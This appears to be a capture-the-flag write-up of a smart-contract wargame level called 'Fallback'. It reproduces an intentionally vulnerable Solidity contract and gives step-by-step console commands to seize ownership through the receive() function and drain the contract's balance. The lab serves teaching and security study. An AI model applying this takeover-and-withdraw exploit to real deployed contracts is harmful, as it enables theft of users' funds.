 # **Level 1 -- Fallback**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
`````` 
---
## ***Objectives***
* Claim ownership of the contract
* Reduce the balance to 0
---
## ***Thought Process***
There are two ways to change the owner of this contract.
* ```contribute()```
```js
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
In order to meet the ```require(msg.value < 0.001 ether)``` condition we can only send ETH value < 0.001 in every transaction when we send eth.

The ownership can only be obtained when the amount we deposit is greater than the amount of the owner.

However according to ``` constructor() ``` the owner has 1000 eth. If we use this way to hack, we need more than 1000 ETH. It's obviously not a good method. 

---
* ```receive() ```
``` solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
  ```
```receive()``` will be called when the contract receives ETH. So we just need to maintain our balance greater than 0 and we send one more transaction with ETH.

---
## ***Solution***
1. send 0.0001 ETH to contract.
``` js
> await contract.contribute({value: toWei("0.0001")});
```

2. send ETH to contract by using ```sendTransaction()``` function. When contract receives ETH it will call ```receive()``` function.

``` js
> await contract.sendTransaction({value: toWei("0.00001")})
```
3. now owner has become to our address and we can check this
``` js
> await contract.owner()
```
4. call ```withdraw()``` function and take away all the money
``` js 
> await contract.withdraw()
```



